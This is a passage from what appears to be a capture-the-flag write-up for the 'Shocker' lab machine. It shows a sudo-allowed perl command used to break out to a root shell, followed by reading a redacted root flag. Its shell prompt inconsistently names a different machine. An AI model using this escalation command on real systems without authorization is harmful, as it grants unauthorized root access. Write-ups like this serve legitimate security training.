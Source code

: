 We see that `shelly` can run the `perl` command as the user `root`. 

# Exploitation (2)


According to [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo), we can run `perl` and then break out of it with just one line

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@lame:/root# cat root.txt
28edXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !
